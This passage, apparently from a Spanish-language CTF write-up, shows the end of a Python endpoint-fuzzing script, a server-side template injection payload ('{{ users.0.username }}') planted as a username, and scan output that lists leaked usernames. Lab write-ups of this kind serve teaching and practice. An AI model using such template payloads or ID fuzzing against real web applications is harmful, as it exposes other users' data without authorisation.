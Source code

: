 ```python
    
    # Opción 2: Búsqueda rápida adicional
    quick_scan_profile_37(target, csrf_token, session_id)
    
    print(f"\n🎯 Búsqueda completada. Total de apariciones del perfil 37: {len(results)}")
```

Vamos a probar primero con el primer `payload` de nombre de usuario.

> payload (username)

```
{{ users.0.username }}
```

Ahora ejecutamos la herramienta asi:

```shell
python3 fuzzIDs.py
```

Info:

```
🔍 Buscador específico del perfil /profile/37
==================================================
[*] Escaneando endpoints /like/{id} (0-100) para perfil 37...

[*] Escaneando endpoints /likes/<built-in function id> (0-100) para perfil 37...
[+] ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day"
[+] ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter"
[+] ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit"
[+] ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker"
[+] ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse"
[+] ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse"
[+] ENCONTRADO: /likes/19 -> /profile/37 - title="{{ users.values }}"
[+] ENCONTRADO: /likes/23 -> /profile/37 - title="backdoor_bandit"

============================================================
RESULTADOS - PERFIL 37 ENCONTRADO EN:
============================================================
Endpoint /likes/1 -> /profile/37 - title="zero_day"
Endpoint /likes/12 -> /profile/37 - title="codebreaker"
Endpoint /likes/17 -> /profile/37 - title="trojanhorse"
Endpoint /likes/18 -> /profile/37 - title="trojanhorse"
Endpoint /likes/19 -> /profile/37 - title="{{ users.values }}"
Endpoint /likes/2 -> /profile/37 - title="hexhunter"
Endpoint /likes/23 -> /profile/37 - title="backdoor_bandit"
Endpoint /likes/8 -> /profile/37 - title="bytebandit"

==================================================
BÚSQUEDA RÁPIDA ADICIONAL:
==================================================
[*] Búsqueda rápida del perfil 37 en endpoints /likes/...
✅ ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day"
✅ ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter"
✅ ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit"
✅ ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker"
✅ ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse"
✅ ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse"
✅ ENCONTRADO: /likes/19 -> /profile/37 - title="{{ users.values }}"
✅ ENCONTRADO: /likes/23 -> /profile/37 - title="backdoor_bandit"

🎯 Búsqueda completada. Total de apariciones del perfil 37: 8
```
